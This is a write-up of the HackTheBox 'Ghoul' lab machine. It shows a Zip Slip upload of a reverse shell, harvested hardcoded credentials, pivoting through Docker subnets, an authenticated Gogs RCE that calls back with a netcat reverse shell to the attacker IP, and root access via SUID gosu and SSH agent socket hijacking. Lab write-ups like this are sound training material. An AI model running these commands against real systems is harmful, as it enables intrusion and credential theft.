




## Ghoul - HacktheBox 

Another machine by MinatoTW and egre55, this one really kicked my ass and I would not have finished without a little help from everyone on htb. But it's the good kind of pain.


```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c1:1c:4b:0c:c6:de:ae:99:49:15:9e:f9:bc:80:d2:3f (RSA)
|_  256 a8:21:59:7d:4c:e7:97:ad:78:51:da:e5:f0:f9:ab:7d (ECDSA)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: A64A06AAE4304C2B3921E4FA5C9FF39C
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Aogiri Tree
2222/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 63:59:8b:4f:8d:0a:e1:15:44:14:57:27:e7:af:fb:3b (RSA)
|   256 8c:8b:a0:a8:85:10:3d:27:07:51:29:ad:9b:ec:57:e3 (ECDSA)
|_  256 9a:f5:31:4b:80:11:89:26:59:61:95:ff:5c:68:bc:a7 (ED25519)
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Aogiri
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88 - Error report
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
From the initial nmap we can see two different versions of SSH open right now and two webservers to start checking out. We get this Tokyo Ghoul themed blog on port 80, it has a bit of default content filler, a login panel at /users/login.php, and a contact form with nothing much else of interest. 


We run a quick dirsearch on it and find this secret.php with some interesting chat going down. We can gather a few hints from this that will be handy later and make a wordlist from it. 




Looking at the tomcat on port 8080, an http authentication window pops up. Just trying admin:admin, it works and we get into some kind of image file upload application. We can't exactly tell what this thing is just yet, it's named "Sierra" though nice. It has another contact form and everything else is filled with lorem ipsum garbage, except it lets us upload a single image or a zip full of images on two different pages here interesting. 


If we try uploading a PHP file or something, we get denied they only accept JPEG.



After going through the usual tricks of uploading PHP shells as different file types and extensions, nothing seems to work and someone tells me to check out "Zip Slip" vulnerabilities ```https://github.com/snyk/zip-slip-vulnerability``` which could be a major problem if you're running Java with any of these affected libraries and trying to process archive file types. Basically we can create an achive with a specific filepath and extract it anywhere we desire on the machine, the issue being that path traveral characters are processed by Java for some reason. We can use this evil arc tool ```https://github.com/ptoomey3/evilarc``` to make a zip file with some php in it, for now we just use the pentestmonkey reverse shell and keep it simple. Passing it var/www/html ensures it will end up in the web root. 

```bash
$ python evilarc.py -o unix -p var/www/html shell.php 
Creating evil.zip containing ../../../../../../../../var/www/html/shell.php
```
Then we upload it, visit shell.php, and we get a shell back as www-data.


```bash
$ nc -nlvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.101.
Ncat: Connection from 10.10.10.101:48556.
Linux Aogiri 4.15.0-45-generic #48-Ubuntu SMP Tue Jan 29 16:28:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 05:06:42 up 1 day,  7:09,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```
First we check out a bunch of files in the webroot, the login.php has some hardcoded creds we should try using elsewhere maybe.
```php
$ cat login.php
<?php session_start(); /* Starts the session */

        /* Check Login form submitted */
        if(isset($_POST['Submit'])){
                /* Define username and associated password array */
                $logins = array('kaneki' => '123456','noro' => 'password123','admin' => 'abcdef');
---snip---
```
And then the tomcat-users.xml has another password to save for later.

```bash
--snip--
<user username="admin" password="admin" roles="admin" />
  <role rolename="admin" />
  <!--<user username="admin" password="test@aogiri123" roles="admin" />
  <role rolename="admin" />-->
</tomcat-users> 
```

Three users we saw in the secret.php have home folders here but we can't access anything in them just yet with our www-data shell.

```bash
$ ls -laHAR /home
/home:
total 36
drwxr-xr-x 1 root   root   4096 Dec 13  2018 .
drwxr-xr-x 1 root   root   4096 Dec 13  2018 ..
drwx------ 1 Eto    Eto    4096 Dec 13  2018 Eto
drwx------ 1 kaneki kaneki 4096 Dec 13  2018 kaneki
drwx------ 1 noro   noro   4096 Dec 13  2018 noro
ls: cannot open directory '/home/Eto': Permission denied
ls: cannot open directory '/home/kaneki': Permission denied
ls: cannot open directory '/home/noro': Permission denied
```

We notice .dockerenv in / so I guess we have some docker containers on this one again...Since different versions of ssh are running on two different ports, we can assume now one is going to a container. After that we see the 3 users have private keys and some other files in /var/backups/.

```bash 
$ ls -lah
total 3.8M
drwxr-xr-x 1 root root 4.0K Dec 13  2018 .
drwxr-xr-x 1 root root 4.0K Oct  7 06:52 ..
-rw-r--r-- 1 root root 3.8M Dec 13  2018 Important.pdf
drwxr-xr-x 2 root root 4.0K Dec 13  2018 keys
-rw-r--r-- 1 root root  112 Dec 13  2018 note.txt
-rw-r--r-- 1 root root  29K Dec 13  2018 sales.xlsx
$ cat note.txt 
The files from our remote server Ethereal will be saved here. I'll keep updating it overtime, so keep checking.
```
```bash
$ ls /var/backups/backups/keys/  
eto.backup  kaneki.backup  noro.backup
```
The Kaneki user key is encrypted, the other two Eto and Noro have no password. So let's check out these user accounts assuming the keys work here. Important.pdf we cant open for whatever reason and sales.xlsx doesn't seem to contain anything interesting. We can login as Eto and Noro with those keys, they dont seem to have anything to find other than some more notes.
```bash
$ cat /home/Eto/alert
Hey Noro be sure to keep checking the humans for IP logs and chase those little shits down!
```
And then...
```bash
$ cat /home/noro/to-do-txt
Need to update backups.
```

Next we try kaneki, we take a wild guess that kaneki's key password is the ILoveTouka string from secret.php chat we found earlier. We can see his last login from 172.20.0.1 interesting...
```bash
root@splinter:~/labs/htb/ghoul# ssh -i kaneki.key kaneki@10.10.10.101
Enter passphrase for key 'kaneki.key': 
Last login: Sun Jan 20 12:33:33 2019 from 172.20.0.1
kaneki@Aogiri:~$ 
```

He has some random stuff in his home folders, looks like the server setup is having some problems.

```bash
kaneki@Aogiri:~$ ls -lah
total 92K
drwx------ 1 kaneki kaneki 4.0K Dec 13  2018 .
drwxr-xr-x 1 root   root   4.0K Dec 13  2018 ..
lrwxrwxrwx 1 root   root      9 Dec 29  2018 .bash_history -> /dev/null
-rwx------ 1 kaneki kaneki  220 Dec 13  2018 .bash_logout
-rwx------ 1 kaneki kaneki 3.7K Dec 13  2018 .bashrc
-rwx------ 1 kaneki kaneki  807 Dec 13  2018 .profile
drwx------ 1 kaneki kaneki 4.0K Dec 13  2018 .ssh
-rw------- 1 kaneki kaneki 1.8K Dec 13  2018 .viminfo
-rw------- 1 kaneki kaneki  148 Dec 13  2018 note.txt
-rwx------ 1 kaneki kaneki  136 Dec 13  2018 notes
-rwx------ 1 kaneki kaneki  39K Dec 13  2018 secret.jpg
-rwx------ 1 kaneki kaneki   33 Dec 13  2018 user.txt
kaneki@Aogiri:~$ cat note.txt
Vulnerability in Gogs was detected. I shutdown the registration function on our server, please ensure that no one gets access to the test accounts.
kaneki@Aogiri:~$ cat notes
I've set up file server into the server's network ,Eto if you need to transfer files to the server can use my pc.
DM me for the access.
```
Secret.jpg appears to have nothing hidden inside of it at least. 


In Kaneki's authorized_keys file we see he has a different username, "kaneki_pub" on some other box and connects here. He also has another private key.
```bash
kaneki@Aogiri:~/.ssh$ cat authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDhK6T0d7TXpXNf2anZ/02E0NRVKuSWVslhHaJjUYtdtBVxCJg+wv1oFGPij9hgefdmFIKbvjElSr+rMrQpfCn6v7GmaP2QOjaoGPPX0EUPn9swnReRgi7xSKvHzru/ESc9AVIQIaeTypLNT/FmNuyr8P+gFLIq6tpS5eUjMHFyd68SW2shb7GWDM73tOAbTUZnBv+z1fAXv7yg2BVl6rkknHSmyV0kQJw5nQUTm4eKq2AIYTMB76EcHc01FZo9vsebBnD0EW4lejtSI/SRC+YCqqY+L9TZ4cunyYKNOuAJnDXncvQI8zpE+c50k3UGIatnS5f2MyNVn1l1bYDFQgYl kaneki_pub@kaneki-pc
```

We seem to have a docker container on this host with this 172 address. 

```bash
kaneki@Aogiri:/$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.20.0.10  netmask 255.255.0.0  broadcast 172.20.255.255
        ether 02:42:ac:14:00:0a  txqueuelen 0  (Ethernet)
        RX packets 20375  bytes 3608931 (3.6 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13177  bytes 11893517 (11.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```


How do we scan this 172 network? There is no curl, netcat, or nmap installed here so I guess the fastest way forward is just upload one of them as a binary or write a short python script to do portscans. For now we just use a crappy bash loop to ping the subnet and can see 172.20.0.150 is up and responding.
```bash
kaneki@Aogiri:~/.ssh$ for i in `seq 1 255`; do ping -c 1 172.20.0.$i ; done
PING 172.20.0.1 (172.20.0.1): 56 data bytes    
---snip---
PING 172.20.0.150 (172.20.0.150): 56 data bytes
64 bytes from 172.20.0.150: icmp_seq=0 ttl=64 time=0.166 ms     
--- 172.20.0.150 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss  
round-trip min/avg/max/stddev = 0.166/0.166/0.166/0.000 ms
PING 172.20.0.151 (172.20.0.151): 56 data bytes                 
92 bytes from Aogiri (172.20.0.10): Destination Host Unreachable
```

We try to ssh in with that other username and key, kaneki_pub and ILoveTouka again as his password and now we have a shell on this new host, kaneki-pc.

```bash
kaneki@Aogiri:~/.ssh$ ssh kaneki_pub@172.20.0.150 
Enter passphrase for key '/home/kaneki/.ssh/id_rsa': 
Last login: Sun Jan 20 12:43:37 2019 from 172.20.0.10
kaneki_pub@kaneki-pc:~$ uname -a && id
Linux kaneki-pc 4.15.0-45-generic #48-Ubuntu SMP Tue Jan 29 16:28:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
uid=1000(kaneki_pub) gid=1002(kaneki_pub) groups=1002(kaneki_pub)
```

Another key and this to-do.txt telling us about another account name is what we get in his /home folders.
```bash
kaneki_pub@kaneki-pc:~$ ls -lahAR
.:
total 40K
drwx------ 3 kaneki_pub kaneki_pub 4.0K Dec 16  2018 .
drwxr-xr-x 1 root       root       4.0K Dec 16  2018 ..
lrwxrwxrwx 1 root       root          9 Dec 29  2018 .bash_history -> /dev/null
-rwx------ 1 kaneki_pub kaneki_pub  220 Dec 16  2018 .bash_logout
-rwx------ 1 kaneki_pub kaneki_pub 3.7K Dec 16  2018 .bashrc
-rwx------ 1 kaneki_pub kaneki_pub  807 Dec 16  2018 .profile
drwx------ 2 kaneki_pub kaneki_pub 4.0K Dec 16  2018 .ssh
-rw------- 1 kaneki_pub kaneki_pub 3.1K Dec 16  2018 .viminfo
-rw-r--r-- 1 kaneki_pub kaneki_pub  165 Dec 16  2018 .wget-hsts
-rw-r--r-- 1 root       root         44 Dec 16  2018 to-do.txt

./.ssh:
total 20K
drwx------ 2 kaneki_pub kaneki_pub 4.0K Dec 16  2018 .
drwx------ 3 kaneki_pub kaneki_pub 4.0K Dec 16  2018 ..
-rwx------ 1 kaneki_pub kaneki_pub  398 Dec 16  2018 authorized_keys
-rwx------ 1 kaneki_pub kaneki_pub 1.8K Dec 16  2018 id_rsa
-rwx------ 1 kaneki_pub kaneki_pub  398 Dec 16  2018 id_rsa.pub
kaneki_pub@kaneki-pc:~$ cat to-do.txt 
Give AogiriTest user access to Eto for git.
```
And we can see another subnet on eth1 for this one, what could be in there?
```bash
kaneki_pub@kaneki-pc:~$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.20.0.150  netmask 255.255.0.0  broadcast 172.20.255.255
        ether 02:42:ac:14:00:96  txqueuelen 0  (Ethernet)
        RX packets 1063  bytes 105005 (105.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 418  bytes 72832 (72.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.18.0.200  netmask 255.255.0.0  broadcast 172.18.255.255
        ether 02:42:ac:12:00:c8  txqueuelen 0  (Ethernet)
        RX packets 233  bytes 40179 (40.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 186  bytes 38476 (38.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
After not finding much on the system we notice this ssh as root happening.
```bash
kaneki_pub@kaneki-pc:~/.ssh$ ps -ef
UID         PID   PPID  C STIME TTY          TIME CMD
root          1      0  0 21:51 pts/0    00:00:00 /usr/bin/python /usr/bin/supervisord -c /etc/supervisor/conf.d/supervisord.conf
root          9      1  0 21:52 pts/0    00:00:00 /usr/sbin/sshd -D
root         44      9  0 22:33 ?        00:00:00 sshd: kaneki_pub [priv]
kaneki_+     46     44  0 22:33 ?        00:00:00 sshd: kaneki_pub@pts/1
kaneki_+     47     46  0 22:33 pts/1    00:00:00 -bash
root        107      9  0 22:48 ?        00:00:00 sshd: kaneki_adm [priv]
kaneki_+    109    107  0 22:48 ?        00:00:00 sshd: kaneki_adm@pts/2
kaneki_+    110    109  0 22:48 pts/2    00:00:00 ssh root@172.18.0.1 -p 2222 -t ./log.sh
kaneki_+    111     47  0 22:48 pts/1    00:00:00 ps -ef
```
At this point we decide to upload a static compiled nmap from our attacker machine and look around this subnet easily. We use this binary here and just SCP from our attacker box over Aogiri and to kaneki-pc. https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap

```bash
root@splinter:~/labs/htb/ghoul# scp -i kaneki.key nmap kaneki@10.10.10.101:/home/kaneki/nmap
Enter passphrase for key 'kaneki.key': 
nmap                                        100% 5805KB 644.6KB/s   00:09

--snip--

kaneki@Aogiri:~$ scp nmap kaneki_pub@172.20.0.150:/home/kaneki_pub/nmap
Enter passphrase for key '/home/kaneki/.ssh/id_rsa':
nmap                                        100% 5805KB 130.9MB/s   00:00
```

Now we run a quick check in this latest network we're in and we can see a new machine at 172.18.0.2:
```bash
kaneki_pub@kaneki-pc:~$ ./nmap 172.18.0.0/24

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2019-10-20 02:27 GMT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for Aogiri (172.18.0.1)
Host is up (0.00049s latency).
Not shown: 1204 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-alt

Nmap scan report for cuff_web_1.cuff_default (172.18.0.2)
Host is up (0.00053s latency).
Not shown: 1206 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for kaneki-pc (172.18.0.200)
Host is up (0.00056s latency).
Not shown: 1206 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (3 hosts up) scanned in 2.76 seconds
```
We dont have any NSE scripts or anything here, but we can see its running some nodejs or something else on port 3000.
```bash
kaneki_pub@kaneki-pc:~$ ./nmap 172.18.0.2 -p-

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2019-10-20 02:33 GMT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for cuff_web_1.cuff_default (172.18.0.2)
Host is up (0.00016s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
3000/tcp open  unknown
```

So let's forward that port 3000 back out to our attacker machine and take a look, we can just use SSH again with our kaneki credentials for this hopefully. First we tunnel it back to Aogiri: 
```bash
kaneki@Aogiri:~$ ssh -L 3000:172.18.0.2:3000 kaneki_pub@172.20.0.150
```
Then from there back to our local box and we can check it out in a browser.
```bash
root@splinter:~/labs/htb/ghoul# ssh -L 3000:127.0.0.1:3000 -i kaneki.key kaneki@ghoul.htb
```
It's another login panel, this time for a "Gogs" application we saw the users talking about for a minute earlier. This is a handy git style service you can host locally.



We can reuse the username AogiriTest and password test@aogiri123 from the tomcat-users.xml file we saw earlier to get in and notice the version of this thing is 0.11.66.0916 on the main page. Nothing else in here at this point that I can see.



If we search for public exploits for gogs on exploitdb, we can see a couple CVE's and an authenticated RCE that looks relevant with a nice pre made script here https://github.com/TheZ3ro/gogsownz and a pentesterlabs module even. Using that we can just upload netcat and get a shell back as the git user easily.

```bash
root@splinter:~/labs/htb/ghoul# python3 gogsownz.py -v  http://127.0.0.1:3000/ -C 'AogiriTest':'test@aogiri123' -n i_like_gogits --rce 'nc 10.10.14.20 443 -e /bin/sh' --cleanup
[i] Starting Gogsownz on: http://127.0.0.1:3000
[+] Loading Gogs homepage
[i] Gogs Version installed: © 2018 Gogs Version: 0.11.66.0916 
[i] The Server is redirecting on the login page. Probably REQUIRE_SIGNIN_VIEW is enabled so you will need an account.
[+] Performing login
[+] Logged in sucessfully as AogiriTest
[+] Got UserID 2
[+] Repository created sucessfully
[i] Exploiting authenticated PrivEsc...
[+] Uploading admin session as repository file
[+] Uploaded successfully.
[+] Committing the Admin session
[+] Committed sucessfully
[+] Removing Repo evidences
[+] Repo removed sucessfully
[i] Signed in as kaneki, is admin True
[i] Current session cookie: '638cb471cd001337'
[+] Got UserID 1
[+] Repository created sucessfully
[+] Setting Git hooks
[+] Git hooks set sucessfully
[+] Fetching last commit...
[+] Got last commit
[+] Triggering the RCE with a new commit
[+] Committed sucessfully
[i] Performed RCE successfully
[i] Waiting 10 seconds before cleaning up...
[+] Removing Repo evidences
[+] Repo removed sucessfully
[i] Done!
```
```bash
root@splinter:~/labs/htb/ghoul# nc -lvnp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.101.
Ncat: Connection from 10.10.10.101:42515.
/bin/sh: can't access tty; job control turned off
/data/git/gogs-repositories/kaneki/gogstest.git $ id
uid=1000(git) gid=1000(git) groups=1000(git)
```

If we look around, the only thing that sticks out is this SUID file gosu. I guess it just runs commands as root? Our shell is now root then.

```bash
3713ea5e4353:~$ gosu 
Usage: gosu user-spec command [args]
   ie: gosu tianon bash
       gosu nobody:root bash -c 'whoami && id'
       gosu 1000:1 id

gosu version: 1.10 (go1.7.1 on linux/amd64; gc)
     license: GPL-3 (full text at https://github.com/tianon/gosu)

3713ea5e4353:~$ gosu root bash
3713ea5e4353:/data/git# whoami
root
```
In roots home we see this 7zip file and a session.sh script which is running every 10 minutes as a cron job.
```bash
3713ea5e4353:~# ls -la
total 128
drwx------    1 root     root          4096 Dec 29  2018 .
drwxr-xr-x    1 root     root          4096 Dec 13  2018 ..
lrwxrwxrwx    1 root     root             9 Dec 29  2018 .ash_history -> /dev/null
lrwxrwxrwx    1 root     root             9 Dec 29  2018 .bash_history -> /dev/null
-rw-r--r--    1 root     root        117507 Dec 29  2018 aogiri-app.7z
-rwxr-xr-x    1 root     root           179 Dec 16  2018 session.sh
```
```bash
#!/bin/bash
while true
do
  sleep 300
  rm -rf /data/gogs/data/sessions
  sleep 2
  curl -d 'user_name=kaneki&password=12345ILoveTouka!!!' http://172.18.0.2:3000/user/login
done
```
We send the aogiri-app.7z back to our attacker machine and start to dig into it. This part took awhile to figure out, we spent a bit of time wasting before we realized its a git repo and to check that out not the actual source code of the application. In the commit log we can see some interesting entries. 

```bash
$ git reflog
647c5f1 (HEAD -> master, origin/master) HEAD@{0}: commit: changed service               
b43757d HEAD@{1}: commit: added mysql deps       
b3752e0 HEAD@{2}: reset: moving to b3752e0                                         
0d426b5 HEAD@{3}: reset: moving to 0d426b5                                           
e29ad43 HEAD@{4}: reset: moving to HEAD^                                          
0d426b5 HEAD@{5}: reset: moving to HEAD                                 
0d426b5 HEAD@{6}: reset: moving to origin/master                                        
0d426b5 HEAD@{7}: commit: update dependencies                                          
e29ad43 HEAD@{8}: commit: added service                          
b3752e0 HEAD@{9}: commit: noro stop doing stupid shit
813e0a5 HEAD@{10}: commit: hello world!                              
ed5a88c HEAD@{11}: commit: mysql support                                               
51d2c36 HEAD@{12}: commit: added readme                                    
bec96aa HEAD@{13}: commit: updated dependencies                                        
8b74520 HEAD@{14}: commit (initial): update readme
```

Checking through those, in this kaneki commit we can see some mysql passwords:

```bash
$ git show 0d426b5
commit 0d426b533d4f1877f8a114620be8a1294f34ab71
Author: kaneki <kaneki@aogiri.htb>
Date:   Sat Dec 29 11:44:50 2018 +0530

    update dependencies

diff --git a/pom.xml b/pom.xml
index 92f24ee..fc1d313 100644
--- a/pom.xml
+++ b/pom.xml
@@ -48,6 +48,11 @@
             		<artifactId>javax.json</artifactId>
             		<version>1.0</version>
 		</dependency>
+		<dependency>
+              		<groupId>mysql</groupId>
+            		<artifactId>mysql-connector-java</artifactId>
+            		<version>5.1.46</version>
+		</dependency>
 
 	</dependencies>
 
diff --git a/src/main/resources/application.properties b/src/main/resources/application.properties
index 4cbc10b..41adeb0 100644
--- a/src/main/resources/application.properties
+++ b/src/main/resources/application.properties
@@ -1,7 +1,7 @@
 server.port=8080
 spring.datasource.url=jdbc:mysql://localhost:3306/db
-spring.datasource.username=kaneki
-spring.datasource.password=7^Grc%C\7xEQ?tb4
+spring.datasource.username=root
+spring.datasource.password=g_xEN$ZuWD7hJf2G
 server.address=0.0.0.0
 
 spring.jpa.properties.hibernate.dialect = org.hibernate.dialect.MySQL5InnoDBDialect
```


If we use keneki's 7^Grc%C\7xEQ?tb4 password from that, we su to root on the kaneki-pc finally but it's not over just yet.

```bash
kaneki_pub@kaneki-pc:/tmp$ su 
Password: 
root@kaneki-pc:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@kaneki-pc:~# cat root.txt 
You've done well to come upto here human. But what you seek doesn't lie here. The journey isn't over yet.....
```
We remember seeing these ssh related files in the /tmp folder and the random ssh connection to 172.18.0.1 as root from our enumeration before on kaneki-pc. After staring at it for awhile we realize this looks like ssh agent forwarding and we should be able to hijack it since we're now root on this box.

```bash
root@kaneki-pc:/tmp# ls -lah
total 32K
drwxrwxrwt 1 root       root       4.0K Oct 20 05:36 .
drwxr-xr-x 1 root       root       4.0K Oct 20 00:05 ..
drwx------ 1 root       root       4.0K Dec 16  2018 ssh-1Oo5P5JuouKm
drwx------ 1 kaneki_adm kaneki_adm 4.0K Dec 16  2018 ssh-FWSgs7xBNwzU
drwx------ 2 kaneki_adm kaneki_adm 4.0K Oct 20 05:36 ssh-GGoXs4gR36
drwx------ 1 kaneki_pub kaneki     4.0K Dec 16  2018 ssh-jDhFSu7EeAnz
-rw------- 1 root       root        400 Oct 20 00:05 sshd-stderr---supervisor-r1qP83.log
-rw------- 1 root       root          0 Oct 20 00:05 sshd-stdout---supervisor-kotUsu.log
```
These two articles here explain this trick and the issues with agent forwarding well, https://www.clockwork.com/news/2012/09/28/602/ssh_agent_hijacking/ and https://xorl.wordpress.com/2018/02/04/ssh-hijacking-for-lateral-movement/ as we can replicate that attack from stealing the ssh-agent socket then login with no password as root on the last docker container.

```bash
root@kaneki-pc:/tmp# cd ssh-GGoXs4gR36/
root@kaneki-pc:/tmp/ssh-GGoXs4gR36# ls
agent.291
root@kaneki-pc:/tmp/ssh-GGoXs4gR36# export SSH_AUTH_SOCK=agent.291 
root@kaneki-pc:/tmp/ssh-GGoXs4gR36# ssh -p 2222 172.18.0.1
Welcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


 * Canonical Livepatch is available for installation.
   - Reduce system reboots and improve kernel security. Activate at:
     https://ubuntu.com/livepatch

155 packages can be updated.
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Oct 19 22:36:01 2019 from 172.18.0.200
root@Aogiri:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Aogiri:~# ls
log.sh  root.txt
root@Aogiri:~# cat root.txt 
7c0f11041f210f4fadff7c077539e72f
root@Aogiri:~# 
```


